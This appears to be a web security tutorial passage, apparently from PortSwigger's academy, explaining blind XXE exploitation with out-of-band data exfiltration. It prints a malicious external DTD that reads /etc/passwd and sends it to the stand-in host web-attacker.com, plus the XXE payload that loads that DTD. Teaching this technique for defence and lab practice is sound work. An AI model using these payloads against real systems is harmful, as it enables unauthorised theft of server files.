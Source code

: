 ## Exploiting blind XXE to exfiltrate data out-of-band
  
Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data.  
This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.  
  
An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">  
             <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">  
             %eval;  
             %exfiltrate;
``` 
  
  
This DTD carries out the following steps:  
  
>• Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.  
• Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.  
• Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.  
• Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.  
  
  
  
The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver.  
For example, the attacker might serve the malicious DTD at the following URL:  
>`http://web-attacker.com/malicious.dtd`  

Finally, the attacker must submit the following XXE payload to the vulnerable application:  
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM  
             "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
  
  
This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.  
  
 
### Note

_This technique might not work with some file contents, including the newline characters contained in the_ _`/etc/passwd`_ _file. 
This is because some XML parsers fetch the URL in the external entity definition_ _*using an API that validates the characters that are allowed to appear within the URL*_. 

In this situation, it might be possible to use the _FTP protocol instead of HTTP_. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as_ _`/etc/hostname`_ _can be targeted instead._  
  
  
>LAB [Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)